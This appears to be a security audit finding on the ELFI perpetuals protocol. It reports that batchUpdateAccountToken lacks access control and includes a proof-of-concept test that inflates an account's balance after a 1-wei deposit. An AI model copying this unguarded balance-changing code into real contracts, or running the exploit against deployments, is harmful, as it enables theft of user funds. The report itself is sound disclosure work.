 Overt Fiery Starfish

high

# Lack of access control for function batchUpdateAccountToken

## Summary
function batchUpdateAccountToken() can update traders' cross-margin account directly and does not need to deposit/redeem any funds.

## Vulnerability Detail
AccountFacet::batchUpdateAccountToken() can update traders' cross-margin account directly. Hackers can use this function to increase their funds directly. 

```javascript
    function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
        AddressUtils.validEmpty(params.account);
        AssetsProcess.updateAccountToken(params);
    }
```
```javascript
    function updateAccountToken(UpdateAccountTokenParams calldata params) external {
        Account.Props storage accountProps = Account.load(params.account);
        accountProps.checkExists();
        for (uint256 i; i < params.tokens.length; i++) {
            if (params.changedTokenAmounts[i] == 0) {
                continue;
            }
            if (params.changedTokenAmounts[i] > 0) {
                accountProps.addToken(params.tokens[i], params.changedTokenAmounts[i].toUint256());
                accountProps.repayLiability(params.tokens[i]);
            } else {
                accountProps.subToken(params.tokens[i], (-params.changedTokenAmounts[i]).toUint256());
            }
        }
    }
```
### Poc
Add below test case in `increaseMarketOrder.test.ts`
```javascript
  it.only('Case0: Test batch update', async function () {
    const orderMargin = precision.token(1, 17) // 0.1BTC
    wbtc.connect(user0).approve(diamondAddr, orderMargin)
    let tx = await accountFacet.connect(user0).deposit(wbtc, 1)
    await tx.wait()
    await accountFacet.batchUpdateAccountToken({
        account: user0,
        tokens: [wbtcAddr],
        changedTokenAmounts: [12345678]
    })
    const executionFee = precision.token(2, 15)
    const accountInfo = await accountFacet.getAccountInfo(user0.address)
    console.log(account.getAccountTokenAmount(accountInfo, wbtcAddr))
  })

```
The test result is as below
```javascript
12345679n
    ✔ Case0: Test batch update (120ms)
```
This means that after we create one account via deposit 1 wei,  we can update the account's balance as what we want.

## Impact
Hackers can change any account's balance if this account exists.

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71

## Tool used
Manual Review

## Recommendation
This function should be disallowed. Or only admin can use this in some special cases.
